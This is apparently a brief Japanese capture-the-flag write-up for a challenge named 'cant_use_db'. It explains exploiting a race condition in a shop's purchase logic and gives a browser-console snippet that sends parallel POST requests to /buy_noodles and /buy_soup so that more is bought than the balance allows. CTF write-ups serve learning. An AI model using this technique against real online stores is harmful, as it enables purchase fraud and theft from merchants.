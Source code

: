 # cant_use_db - Writeup

ユーザ情報はファイル管理のようだ。  
所持金以上のものを買うサイトから見てもrace conditionを狙う。  
ソースを見ると購入処理で`/buy_noodles`、`/buy_soup`へPOSTを投げているようだ。  
並列にPOSTを投げてやればよい。  
ブラウザコンソールで以下を実行してもよい。  
```javascript
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
$.post('/buy_noodles');
$.post('/buy_soup');
```